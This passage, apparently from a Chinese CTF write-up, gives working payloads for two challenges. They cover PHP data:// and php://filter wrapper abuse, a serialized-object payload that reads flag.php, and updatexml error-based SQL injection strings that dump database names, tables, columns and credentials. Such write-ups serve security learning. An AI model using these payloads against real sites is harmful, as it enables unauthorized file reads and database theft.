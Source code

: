 当然也可以不需要base64，但是一般为了绕过某些过滤都会用到base64。

```
data://text/plain,welcome to the zjctf
```

接下来是file:

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

得到：

```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

参考反序列化基础的文章：https://www.freebuf.com/articles/web/167721.html

构造：

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php"}
```

最终payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

## 0x17.[极客大挑战 2019]HardSQL

```
'or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
得到数据库geek

'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))%23
得到表名：H4rDsq1

or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
得到字段：id,username,password

查数据：
or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))%23
只查到了一半：XPATH syntax error: '~1flagflag{b615ddd5-228b-4383-9a'
可以使用right()语句：
or(updatexml(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1)),0x7e),1))%23
```
